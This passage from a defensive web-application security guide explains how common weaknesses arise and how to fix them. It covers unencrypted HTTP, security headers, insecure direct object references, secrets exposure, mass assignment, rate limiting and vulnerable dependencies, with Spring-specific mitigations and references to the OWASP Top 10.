**How it arises.** Plain HTTP sends everything, including passwords, cookies and tokens, as readable text, so anybody on the path (a Wi-Fi hotspot, a compromised router, an ISP) can read or modify it (*man-in-the-middle*).

**Solutions.** Use **HTTPS** (HTTP over TLS) for everything, with valid certificates (for example free ones from Let's Encrypt). The **HSTS** header (`Strict-Transport-Security`) instructs the browser to use only HTTPS for the domain in the future, defeating downgrade attacks. Cookies should carry the `Secure` flag. Internal service-to-service communication deserves TLS too, not only the public edge.

### Security Headers

Browsers support a group of response headers that cheaply reduce several risks, and which are configured centrally (Spring Security adds many by default). Besides CSP and HSTS, the most useful are `X-Content-Type-Options: nosniff` (prevents the browser from guessing a content type and executing a file as script), `X-Frame-Options` or CSP `frame-ancestors` (protection against **clickjacking**, in which a page is embedded invisibly in an iframe and the user is tricked into clicking on it), `Referrer-Policy` (limits leaking of URLs) and `Permissions-Policy` (disables unneeded browser features).

### Insecure Direct Object Reference (Broken Access Control)

**How it arises.** The API accepts an identifier from the client (`GET /invoices/1042`) and returns the object without checking whether it belongs to the current user. The attacker changes the number and reads other people's data. It is an authorization failure rather than an authentication one.

**Solutions.** Always check ownership or permissions on the server for every object access, filter queries by the current user (`findByIdAndOwnerId`), use method security, and consider unpredictable identifiers (UUID) as an additional layer, not as a substitute. Broken access control is number one in the OWASP Top 10, so it deserves systematic testing.

### Sensitive Data Exposure and Secrets Management

**How it arises.** Passwords in the repository, API keys in the frontend code, detailed error messages with stack traces, entities with internal fields serialized directly to JSON, or logs containing tokens and personal data.

**Solutions.** Keep secrets in environment variables or a secret manager, not in Git; return DTOs instead of entities; show generic error messages to clients and keep details in logs (without sensitive content); hash passwords (see [Security - Authentication](security-authentication.md)); and encrypt sensitive data at rest where required.

### Input Validation and Mass Assignment

Never trust any data from the client, including hidden fields, headers and cookies. **Validate** the type, length, range and format on the server (in Spring, Bean Validation annotations such as `@NotBlank` and `@Size` with `@Valid`). A related problem is **mass assignment**: when the request body is bound directly to an entity, the attacker adds a field such as `"role": "ADMIN"` or `"isPaid": true` and it is happily saved. The solution is to bind requests to dedicated DTOs containing only the fields the client may set.

### Brute Force, Rate Limiting and Denial of Service

Login endpoints, password reset and expensive operations attract automated abuse. Solutions include **rate limiting** per IP address and per account, progressive delays, CAPTCHA, request size limits, timeouts and pagination of large results. Rate limiting is often enforced in an API gateway or reverse proxy, but can also be done in the application.

### Vulnerable Dependencies (Supply Chain)

Modern applications consist mostly of third-party libraries, and a vulnerability in any of them (the well-known Log4Shell is an example) becomes a vulnerability of the application. The solution is to keep dependencies up to date, use automated scanners (Dependabot, OWASP Dependency-Check, `npm audit`), minimize the number of dependencies and pin versions.

### Further Reading

A good overview of the most common problems is the **OWASP Top 10** (web applications) and **OWASP API Security Top 10**, which are regularly updated and which can serve as a checklist during design and code review. The principle that runs through all of them is **defence in depth**: no single measure is perfect, so the application combines several layers (secure defaults in frameworks, validation, encoding, least privilege, headers, monitoring), so that a failure of one layer does not mean a compromise of the whole system.
